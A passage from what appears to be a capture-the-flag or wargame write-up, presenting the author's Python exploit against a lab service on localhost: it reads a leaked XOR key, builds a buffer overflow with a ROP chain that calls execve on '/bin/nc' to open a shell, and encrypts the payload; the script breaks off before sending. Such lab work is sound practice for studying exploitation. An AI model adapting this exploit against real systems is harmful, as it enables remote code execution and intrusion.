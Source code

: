 Listed below is the exploit I wrote in python. It's not very neat and
organized, but it works.

{% highlight python %}
# -*- coding: utf-8 -*-
import socket, time
from struct import pack, unpack

JUNK=0xdeadbabe
OVERFLOW=0x10
OLEN=0x20000+OVERFLOW
LEN=128
foo=[
    0x804952d, # &nread
    0x8048815, # add esp, 8; pop ebx; ret
    1,         # nread(1,
    0x804b464, #       &buffer,
    20,        #       size)
    0x804952d, # &nread
    0x8048815, # add esp, 8; pop ebx; ret
    1,         # nread(1,
    0x804b42c, #       &buffer,
    13,        #       size)
    0x80489b0, # &(execve@plt)
    JUNK,
    0x804b471, # &"/bin/nc"
    0x804b42d, # &argv
    0          # no envp    
]
CHAIN=''.join(pack('I', l) for l in foo)
PAYLOAD='E'+pack('I', LEN)+"\x00"*LEN
KEYBUF=[]

def cipher(message, length):
    global KEYBUF
    cipherd = []
    for i in xrange(0, length, 4):
        cipherd.append(unpack('I', message[i:i+4])[0]^KEYBUF[(i/4)%32])
    return cipherd

def main():
    global OLEN, LEN, PAYLOAD, KEYBUF, CHAIN

    # Create connection & Send initial payload ;)
    s = socket.create_connection(("127.0.0.1", 20002))
    s.sendall(PAYLOAD)

    # Flush some garbage down the toiler (177 ascii + 4 size)
    s.recv(181, socket.MSG_WAITALL)

    # retrieve the key, hashtag 1337cr4ck3r
    key=s.recv(128, socket.MSG_WAITALL)
    KEYBUF=[unpack('I',key[i:i+4])[0] for i in xrange(0, 128, 4)]

    # Create a ciphered block of payload
    payload='A'*(OLEN)+CHAIN
    ENCRYPTED_PAYLOAD='E'+pack('I', OLEN+len(CHAIN))
    ENCRYPTED_PAYLOAD+=''.join(pack('I', x) for x in cipher(payload, len(payload))) # <- EZ
